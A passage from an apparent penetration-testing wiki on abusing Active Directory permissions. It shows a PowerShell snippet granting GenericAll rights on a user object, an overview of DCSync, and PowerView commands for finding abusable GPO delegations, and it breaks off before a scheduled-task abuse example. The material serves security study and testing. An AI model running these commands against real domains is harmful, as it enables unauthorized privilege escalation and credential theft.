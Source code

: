 ```bash
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

## **Replication on the Domain (DCSync)**

The DCSync attack leverages specific replication permissions on the domain to mimic a Domain Controller and synchronize data, including user credentials. This powerful technique requires permissions like `DS-Replication-Get-Changes`, allowing attackers to extract sensitive information from the AD environment without direct access to a Domain Controller. [**Learn more about the DCSync attack here.**](../dcsync.md)

## GPO Delegation <a href="#gpo-delegation" id="gpo-delegation"></a>

### GPO Delegation

Delegated access to manage Group Policy Objects (GPOs) can present significant security risks. For instance, if a user such as `offense\spotless` is delegated GPO management rights, they may have privileges like **WriteProperty**, **WriteDacl**, and **WriteOwner**. These permissions can be abused for malicious purposes, as identified using PowerView: `bash Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

### Enumerate GPO Permissions

To identify misconfigured GPOs, PowerSploit's cmdlets can be chained together. This allows for the discovery of GPOs that a specific user has permissions to manage: `powershell Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

**Computers with a Given Policy Applied**: It's possible to resolve which computers a specific GPO applies to, helping understand the scope of potential impact. `powershell Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}`

**Policies Applied to a Given Computer**: To see what policies are applied to a particular computer, commands like `Get-DomainGPO` can be utilized.

**OUs with a Given Policy Applied**: Identifying organizational units (OUs) affected by a given policy can be done using `Get-DomainOU`.

You can also use the tool [**GPOHound**](https://github.com/cogiceo/GPOHound) to enumerate GPOs and find issues in them.

### Abuse GPO - New-GPOImmediateTask

Misconfigured GPOs can be exploited to execute code, for example, by creating an immediate scheduled task. This can be done to add a user to the local administrators group on affected machines, significantly elevating privileges:
